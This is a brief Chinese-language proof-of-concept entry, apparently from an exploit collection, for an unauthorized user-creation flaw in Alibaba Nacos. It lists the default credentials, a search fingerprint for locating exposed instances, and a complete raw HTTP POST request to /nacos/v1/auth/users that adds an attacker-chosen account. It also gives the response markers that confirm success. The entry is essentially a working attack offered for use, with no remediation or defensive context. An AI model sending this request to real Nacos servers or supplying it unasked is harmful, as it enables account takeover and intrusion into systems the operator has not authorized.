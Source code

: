 ﻿# Nacos 任意用户添加漏洞

> 更新时间：2024-04-19

> 漏洞编号：

> 漏洞说明：默认密码nacos nacos

> 漏洞特征：app="nacos"

> 验证脚本：HTTP

```
POST /nacos/v1/auth/users?username=dudesite&password=dudesite HTTP/1.1
Accept:text/html,application/xhtml+xml,application/xml:q=0.9,image/avif,image/webp.*/*:q=0.8
Accept-Language:zh-CN,zh;q=0.8,zh-TW:q=0.7,zh-HK;q=0.5.en-US:q=0.3.en:q=0.2
Accept-Encoding: gzip, deflate
Comnection: close
Upgrade-Insecure-Requests: 1
```

> 响应代码特征：200

> 响应内容特征：create

> 上传文件定位：

> 验证文件来源：Nacos 任意用户添加漏洞.poc

